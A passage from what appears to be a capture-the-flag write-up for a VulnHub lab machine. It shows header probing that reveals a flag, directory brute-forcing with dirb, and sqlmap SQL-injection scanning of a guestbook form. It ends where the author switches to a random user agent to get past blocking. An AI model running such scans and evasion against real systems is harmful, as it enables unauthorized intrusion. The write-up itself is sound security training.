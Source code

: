 ```
root@kali:~# curl -skI 192.168.56.2
HTTP/1.1 200 OK
Date: Sun, 08 Jan 2017 21:48:34 GMT
Server: Apache/2.4.7 (Ubuntu)
Last-Modified: Mon, 17 Oct 2016 16:04:49 GMT
ETag: "1eb-53f11bc50cf74"
Accept-Ranges: bytes
Content-Length: 491
Vary: Accept-Encoding
Flag: flag1{l0l_h0w_345y_15_7h15_c7f}
Content-Type: text/html
```

# flag2

By running nikto against the target we can see some requests return a PHP HTTP header so there must be a PHP application somewhere on the Server.

```
+ Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.20
```

So let's run `dirb` against the target and also check for files with an `.php` extension:

```
root@kali:~# dirb http://192.168.56.2/ /usr/share/wordlists/dirb/big.txt -X .php
-----------------
GENERATED WORDS: 20458
---- Scanning URL: http://192.168.56.2/ ----
+ http://192.168.56.2/admin.php (CODE:302|SIZE:0)
+ http://192.168.56.2/db.php (CODE:200|SIZE:0)
+ http://192.168.56.2/index.php (CODE:200|SIZE:647974)
+ http://192.168.56.2/report.php (CODE:200|SIZE:527)
-----------------
```

After opening `index.php` in a browser we see a simple guestbook application and a feature to report issues under `report.php`.

![Admin Login](/img/vulnhub_dc416_dick_dastardly/admin_login.png)

By playing around with the parameters of the guestbook to see if it's vulnerable to XSS it seems that there is some filtering and escaping in place. So let's try `sqlmap` and see if it can find any SQL-Injection vulnerabilities.

```
sqlmap -u http://192.168.56.2/index.php --data "name=asd&msg=asd" --level=5 --risk=3 --batch
```

After running this command I could not see any new entries on the guestbook page so it looks like all requests were blocked. `sqlmap` sends it's own user agent on every request containing the tool name so maybe the server is blocking these requests. The user agent can be randomized with the `--random-agent` option so let's give it another try:
